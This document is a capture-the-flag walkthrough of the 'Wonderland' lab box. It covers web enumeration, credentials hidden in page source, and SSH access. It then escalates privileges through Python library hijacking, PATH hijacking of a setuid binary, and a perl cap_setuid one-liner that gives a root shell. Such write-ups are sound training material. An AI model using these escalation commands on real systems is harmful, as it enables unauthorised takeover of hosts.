




Target: 10.10.0.110

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.0.110

Nmap scan report for 10.10.0.110
Host is up (0.27s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

ffuz
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.0.110/FUZZ

img                     [Status: 301, Size: 0, Words: 1, Lines: 1]
r                       [Status: 301, Size: 0, Words: 1, Lines: 1]
```

checking index



checking /img



checking /r



ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.0.110/r/FUZZ -recursion

r                       [Status: 301, Size: 0, Words: 1, Lines: 1]
[INFO] Adding a new job to the queue: http://10.10.0.110/r/FUZZ
                        [Status: 200, Size: 402, Words: 55, Lines: 10]
a                       [Status: 301, Size: 0, Words: 1, Lines: 1]
[INFO] Adding a new job to the queue: http://10.10.0.110/r/a/FUZZ
                        [Status: 200, Size: 258, Words: 37, Lines: 9]
b                       [Status: 301, Size: 0, Words: 1, Lines: 1]
[INFO] Adding a new job to the queue: http://10.10.0.110/r/a/b/FUZZ
                        [Status: 200, Size: 264, Words: 39, Lines: 9]
b                       [Status: 301, Size: 0, Words: 1, Lines: 1]
[INFO] Adding a new job to the queue: http://10.10.0.110/r/a/b/b/FUZZ
                        [Status: 200, Size: 233, Words: 31, Lines: 9]
i                       [Status: 301, Size: 0, Words: 1, Lines: 1]
[INFO] Adding a new job to the queue: http://10.10.0.110/r/a/b/b/i/FUZZ
                        [Status: 200, Size: 251, Words: 35, Lines: 9]
t                       [Status: 301, Size: 0, Words: 1, Lines: 1]
[INFO] Adding a new job to the queue: http://10.10.0.110/r/a/b/b/i/t/FUZZ
```

checking /r/a/b/b/i/t



viewing source
```
<!DOCTYPE html>

<head>
    <title>Enter wonderland</title>
    <link rel="stylesheet" type="text/css" href="/main.css">
</head>

<body>
    <h1>Open the door and enter wonderland</h1>
    <p>"Oh, you’re sure to do that," said the Cat, "if you only walk long enough."</p>
    <p>Alice felt that this could not be denied, so she tried another question. "What sort of people live about here?"
    </p>
    <p>"In that direction,"" the Cat said, waving its right paw round, "lives a Hatter: and in that direction," waving
        the other paw, "lives a March Hare. Visit either you like: they’re both mad."</p>
    <p style="display: none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail</p>
    
</body>
```

Loot:

`alice:HowDothTheLittleCrocodileImproveHisShiningTail`

### Findings:Looking for attack vectors

ctf style box


## Foothold:

```
$ ssh alice@10.10.0.110   

alice@wonderland:~$ id

uid=1001(alice) gid=1001(alice) groups=1001(alice)
```

```
alice@wonderland:~$ cd /

alice@wonderland:/$ ls -la

total 2097252
<snip>
drwxr-xr-x 25 root root        840 May  6 04:45 run
<snip>

alice@wonderland:/$ cat /root/user.txt

<redacted>
```


## Lateral Movement:

```
alice@wonderland:~$ sudo -l
 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

looking for suspicious file/s
```
alice@wonderland:~$ ls -la

total 40
drwxr-xr-x 5 alice alice 4096 May 25  2020 .
drwxr-xr-x 6 root  root  4096 May 25  2020 ..
lrwxrwxrwx 1 root  root     9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 alice alice  220 May 25  2020 .bash_logout
-rw-r--r-- 1 alice alice 3771 May 25  2020 .bashrc
drwx------ 2 alice alice 4096 May 25  2020 .cache
drwx------ 3 alice alice 4096 May 25  2020 .gnupg
drwxrwxr-x 3 alice alice 4096 May 25  2020 .local
-rw-r--r-- 1 alice alice  807 May 25  2020 .profile
-rw------- 1 root  root    66 May 25  2020 root.txt
-rw-r--r-- 1 root  root  3577 May 25  2020 walrus_and_the_carpenter.py

alice@wonderland:~$ cat walrus_and_the_carpenter.py 

import random
poem = """The sun was shining on the sea,
<snip>

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

enumerating users
```
alice@wonderland:/home$ ls -la

total 24
drwxr-xr-x  6 root      root      4096 May 25  2020 .
drwxr-xr-x 23 root      root      4096 May 25  2020 ..
drwxr-xr-x  5 alice     alice     4096 May 25  2020 alice
drwxr-x---  3 hatter    hatter    4096 May 25  2020 hatter
drwxr-x---  2 rabbit    rabbit    4096 May 25  2020 rabbit
drwxr-x---  6 tryhackme tryhackme 4096 May 25  2020 tryhackme
```

[exploiting via python library hijacking](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/)

creating random.py
```
alice@wonderland:~$ vim random.py   

import pty
pty.spawn("/bin/bash"]
```

executing walrus_and_the_carpenter.py 
```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

```
rabbit@wonderland:/home/rabbit$ id

uid=1002(rabbit) gid=1002(rabbit) groups=1002(rabbit)
```

looking for suspicious file/s
```
rabbit@wonderland:/home/rabbit$ ls

teaParty

rabbit@wonderland:/home/rabbit$ file teaParty

teaParty: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped

rabbit@wonderland:/home/rabbit$ ls -la

total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 .
drwxr-xr-x 6 root   root    4096 May 25  2020 ..
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty

rabbit@wonderland:/home/rabbit$ ./teaParty

Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Thu, 06 May 2021 06:13:39 +0000
Ask very nicely, and I will give you some tea while you wait for him
```

viewing source code of teaParty
```
rabbit@wonderland:/home/rabbit$ cat teaParty

<snip>
The Mad Hatter will be here soon./bin/echo -n 'Probably by ' && date --date='next hour' -RAsk very nicely, and I will give you some tea while you wait for himSegmentation fault (core dumped)8
<snip>
```

[exploiting via PATH Variable](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)

```
rabbit@wonderland:/home/rabbit$ cd /tmp

rabbit@wonderland:/tmp$ echo "/bin/bash" > date

rabbit@wonderland:/tmp$ chmod 777 date

rabbit@wonderland:/tmp$ echo $PATH

/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

rabbit@wonderland:/tmp$ export PATH=/tmp:$PATH

rabbit@wonderland:/tmp$ cd /home/rabbit/

rabbit@wonderland:/home/rabbit$ ./teaParty

Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$

hatter@wonderland:/home/rabbit$ id

uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
```

looking for suspicious file/s
```
hatter@wonderland:/home/rabbit$ cd /home/hatter

hatter@wonderland:/home/hatter$ ls -la

total 28                                                                                                           
drwxr-x--- 3 hatter hatter 4096 May 25  2020 .                                                                     
drwxr-xr-x 6 root   root   4096 May 25  2020 ..                                                                    
lrwxrwxrwx 1 root   root      9 May 25  2020 .bash_history -> /dev/null                                            
-rw-r--r-- 1 hatter hatter  220 May 25  2020 .bash_logout                                                          
-rw-r--r-- 1 hatter hatter 3771 May 25  2020 .bashrc                                                               
drwxrwxr-x 3 hatter hatter 4096 May 25  2020 .local                                                                
-rw-r--r-- 1 hatter hatter  807 May 25  2020 .profile                                                              
-rw------- 1 hatter hatter   29 May 25  2020 password.txt 

hatter@wonderland:/home/hatter$ cat password.txt

WhyIsARavenLikeAWritingDesk?
```

Loot:

`hatter:WhyIsARavenLikeAWritingDesk?`


## Priv Escalations:

enumerating with linpeas.sh
```
[+] Capabilities
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities                                       
Files with capabilities:
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

(exploting via perl capabilities)

```
hatter@wonderland:~$ cd /usr/bin/

hatter@wonderland:/usr/bin$ ./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'

# id

uid=0(root) gid=1003(hatter) groups=1003(hatter)
```

```
# cd /home/alice

# cat root.txt

<redacted>
```
